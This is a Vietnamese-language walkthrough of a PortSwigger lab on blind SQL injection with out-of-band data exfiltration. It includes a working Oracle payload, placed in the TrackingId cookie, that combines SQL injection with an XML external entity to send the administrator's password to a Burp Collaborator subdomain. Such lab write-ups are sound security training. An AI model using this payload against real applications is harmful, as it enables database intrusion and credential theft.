 ![image-20250601131628951](./image/image-20250601131628951.png)

### [Lab 16: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

**Lab des:** Bài lab này chứa một lỗ hổng Blind SQL Injection. Ứng dụng sử dụng cookie TrackingId cho mục đích phân tích, và thực hiện một truy vấn SQL chứa giá trị của cookie đó.

Truy vấn SQL được thực hiện một cách bất đồng bộ và không ảnh hưởng trực tiếp đến phản hồi của ứng dụng. Tuy nhiên, có thể kích hoạt tương tác out-of-band với một tên miền bên ngoài.

Cơ sở dữ liệu có một bảng tên là `users`, với các cột `username` và `password`. Nhiệm vụ là khai thác lỗ hổng Blind SQL Injection để tìm ra mật khẩu của tài khoản administrator.

Để hoàn thành lab, cần đăng nhập thành công vào tài khoản `administrator`.

**Steps**:

- Thay đổi giá trị của cookie `TrackingId` thành một payload có khả năng kích hoạt tương tác với server Collaborator, kết hợp kỹ thuật SQL injection với XXE cơ bản:

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

- Nhấp chuột phải và chọn "Insert Collaborator payload" để chèn tên miền phụ (subdomain) của Burp Collaborator vào vị trí cần thiết trong cookie `TrackingId` đã chỉnh sửa.
